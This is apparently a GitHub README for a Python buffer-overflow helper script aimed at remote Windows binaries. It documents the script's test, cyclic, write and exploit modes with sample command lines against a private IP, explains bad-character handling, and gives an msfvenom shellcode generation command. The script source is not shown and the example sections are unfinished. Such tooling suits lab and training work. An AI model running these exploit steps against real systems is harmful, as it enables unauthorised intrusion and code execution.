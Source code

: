 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig_buffer_overflow.py test remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py test 10.2.31.155 2050 4096 'cmd /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig_buffer_overflow.py cyclic remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py cyclic 10.2.31.155 2050 4096 'cmd /.:/'
```

write - Writes hex value to buffer offset
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badAfter excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badAfter 000a

./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badBefore reverseJmpSize excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badBefore 800 000a
```

exploit - Sends malicious payload via buffer overflow
```
./ig_buffer_overflow.py exploit remoteHost remotePort buffSize buffHead offset hexcontent reverseJmpSize shellCodeFile [nops]
./ig_buffer_overflow.py exploit 10.2.31.155 2048 5009 hello 01010101 1203 10 payload
```

## Parameters:
* [mode] : Script modes: test|cyclic|write|exploit
* remoteHost : Remote host IP.
* remotePort : Remote host port.
* buffSize : Amount of variable bytes to send.
* buffHead : Static buffer string set at the beginning of the buffer. Is usually the crash string. Size is considered in buffSize calc.
* offset : Place in buffer where content can be added.
* hexcontent	: Hex string to add at the offset position. Can be considered as big endian (default) or little endian (will be reversed). Use 'g' or 'l' to delimit the order. Examples:
  * 'g01020304l05060708' --> will send '0102030408070605'
  * '01020304' --> will send '01020304'
* bad* : Adds bad chars before (badBefore) or after (badAfter) the content. Used for bad char testing.
* excludeChars : List of chars (formatted as hex string) to be excluded from badchar list. Example: 000a excludes badchars '00' and '0a'.
* reverseJmpSize : Size in bytes to jump before the content to inject bad chars or the shell code.
* shellCodeFile : Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o shellCodeFile
* nops : Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO

